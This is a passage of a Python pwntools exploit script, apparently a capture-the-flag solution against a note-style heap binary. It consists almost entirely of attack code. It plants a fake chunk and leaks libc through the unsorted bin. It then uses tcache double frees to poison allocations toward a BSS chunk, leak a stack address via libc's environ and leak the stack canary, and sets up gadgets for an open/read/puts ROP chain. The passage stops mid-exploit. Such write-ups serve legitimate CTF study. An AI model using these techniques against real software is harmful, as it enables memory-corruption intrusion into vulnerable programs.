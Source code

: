 ```python
    #start at 0x7fffffffdb60
    #end at 0x7fffffffdc60
    #fakechunk at 0x7fffffffdc48
    #leave a blank(8bytes) to fix fastbin after fastbin_attack
    name = b"a"*0xE8 + p64(0) + p64(0x81) # padding + fakechunk
    p.recvuntil(b"what is your name? \n")
    p.sendline(name)
    #gdb.attach(p)
    #leak lib
    new(0x80,b"aaaaaaaa") # idx0
    new(0x80,b"aaaaaaaa") # idx1
    new(0x10,b"aaaaaaaa") # idx2
    for i in range(7):
        delete(0)
    delete(1)
    #gdb.attach(p)
    write(1)
    unsorted_arena = u64(p.recvuntil(b"\x0a",drop=True).ljust(8,b"\x00"))
    libc_base = unsorted_arena - 0x3ebca0
    environ = libc_base + 0x3ee098
    print("unsorted_arena:",hex(unsorted_arena))
    print("libc_base:",hex(libc_base))
    print("environ:",hex(environ)) # stack addr here
    
    #gadgets&rop funcs
    pop_rdi = libc_base + pop_rdi
    pop_rsi = libc_base + pop_rsi
    pop_rdx = libc_base + pop_rdx
    openat_addr = libc_base + libc.symbols[b"openat"]
    open_addr = libc_base + libc.symbols[b"open"]
    read_addr = libc_base + libc.symbols[b"read"]
    puts_addr = libc_base + libc.symbols[b"puts"]
    
    #double free& leak_stack
    new(0x78,b"split unsorted bin") #get unsorted bin idx3
    new(0x78,b"bbbbbbbb") #idx4
    delete(4)
    delete(4)
    fake_bss_chunk_addr = notesize6_addr+0x8 #user_size_start
    new(0x78,p64(fake_bss_chunk_addr)) #idx5
    new(0x78,b"bbbbbbbb") #idx6
    payload = b"a"*0x60 + p64(environ)
    new(0x78,payload) #idx7
    write(0)
    #gdb.attach(p)
    stack_leak = u64(p.recvuntil(b"\x0a",drop=True).ljust(8,b"\x00")) #0x7fffffffdd68
    fake_stack_chunk = stack_leak - 0x120
    print("stack_leak",hex(stack_leak))
    print("fake_stack_chunk",hex(fake_stack_chunk))
    
    #get stack_fake_chunk_1 & leak canary
    new(0x78,b"cccccccc") #idx8
    new(0x78,b"cccccccc") #idx9
    delete(8)
    delete(9)
    delete(8)
    #p.recv()
    new(0x78,p64(fake_stack_chunk)) #idx10
    new(0x78,b"cccccccc") #idx11
    new(0x78,b"cccccccc") #idx12
    new(0x78,b"a"*0x11) #idx13
    write(13)
    p.recv(0x11)
```